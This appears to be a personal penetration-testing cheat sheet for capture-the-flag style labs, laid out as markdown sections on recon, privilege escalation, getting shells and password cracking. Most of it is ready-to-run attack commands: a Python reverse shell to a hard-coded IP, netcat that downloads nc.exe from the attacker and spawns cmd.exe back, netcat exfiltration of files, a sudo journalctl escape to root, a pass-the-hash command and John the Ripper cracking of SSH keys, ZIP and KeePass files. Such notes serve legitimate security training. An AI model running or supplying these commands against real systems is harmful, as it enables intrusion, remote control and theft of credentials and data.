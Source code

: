 # RECON
## Initial Nmap Scan
```bash
ip="10.10.10.5"
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt
URL to fuzz (find file in unknown folder)
/{dir}/phpbash.min.php

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```





# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
# Password Cracking
## John
```bash
john --wordlist=/home/mallab/Downloads/rockyou.txt htpasswd.txt 
```

## SSH Private Key / id_rsa
```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
sudo john --wordlist=rockyou.txt id_rsa.hash
```

## ZIP Archive
```bash
/usr/sbin/zip2john avedb.zip > avedb.zip.hashes
sudo john --wordlist=rockyou.txt avedb.zip.hashes
```

## KDBX Keepassa
```bash
sudo keepass2john jeeves.kdbx > jeeves.hash
```
